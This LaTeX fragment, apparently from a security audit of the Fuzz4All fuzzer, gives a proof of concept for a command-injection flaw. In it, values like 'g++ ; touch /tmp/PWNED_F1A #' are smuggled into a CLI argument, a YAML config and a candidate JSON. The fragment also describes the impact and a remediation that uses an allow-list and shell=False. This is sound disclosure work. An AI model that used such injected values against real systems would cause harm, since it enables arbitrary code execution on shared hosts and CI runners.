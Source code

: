 \documentclass[conference]{IEEEtran}
\begin{document}
\begin{lstlisting}[style=sh,caption={F1 proof of concept.},label={lst:f1poc}]
# Surface (i): CLI
python Fuzz4All/fuzz.py --config config/cpp_repair_smoke.yaml \
    main_with_config --folder /tmp/poc1 \
    --target 'g++ ; touch /tmp/PWNED_F1A #'
ls -l /tmp/PWNED_F1A    # exists  ->  RCE confirmed

# Surface (ii): YAML
cat > /tmp/evil.yaml <<'EOF'
fuzzing: { target_name: "g++ ; touch /tmp/PWNED_F1B #",
           num: 2, total_time: 0.01, otf: true, resume: false,
           evaluate: false, use_hand_written_prompt: false,
           no_input_prompt: true, prompt_strategy: 0, log_level: 3 }
target:  { language: cpp,
           path_documentation: config/documentation/cpp/cpp_23.md,
           path_example_code: null,
           trigger_to_generate_input: "/* x */",
           input_hint: "#include <iostream>",
           path_hand_written_prompt: null, target_string: "" }
llm:     { temperature: 1, batch_size: 1, device: cpu,
           model_name: bigcode/starcoderbase-1b, max_length: 64 }
EOF
python Fuzz4All/fuzz.py --config /tmp/evil.yaml \
    main_with_config --folder /tmp/poc2

# Surface (iii): search-harness candidate JSON
echo '[{"name":"evil","gen":{"target_name":"g++ ; touch /tmp/PWNED_F1C #"},"repair":{}}]' \
   > candidates/round_evil.json
python tools/run_search_round.py --round candidates/round_evil.json \
   --base_config config/cpp_repair_smoke.yaml \
   --budget_programs 2 --repeats 1
\end{lstlisting}

\textbf{Impact.} Arbitrary command execution as the user running the
fuzzer. On a shared HPC node this typically grants the attacker full
access to the operator's home directory, SSH keys, scratch storage, and
any compute-job credentials present in the environment. In a CI context
the build runner is fully compromised. The three reachable surfaces also
expose the wider scientific-computing community: a malicious collaborator
need only submit a candidate JSON to a shared search round.

\textbf{Recommended remediation.} Pass arguments as a list, set
\texttt{shell=False}, validate the compiler path against an allow-list,
and resolve to a known absolute path. The minimal patch is:

\begin{lstlisting}[style=py,caption={Recommended fix for F1 (not applied; analysis-only assignment).}]
import os, shutil
ALLOWED = {"/usr/bin/g++", "/usr/bin/clang++"}

compiler_path = shutil.which(compiler) or compiler
if compiler_path not in ALLOWED:
    raise ValueError(f"compiler not allow-listed: {compiler_path}")

subprocess.run(
    [compiler_path, "-x", "c++", "-std=c++23", "-O0",
     "-fdiagnostics-color=never", "-c", filename, "-o", out_obj],
    shell=False, capture_output=True, text=True, timeout=5,
)
\end{lstlisting}
\end{document}
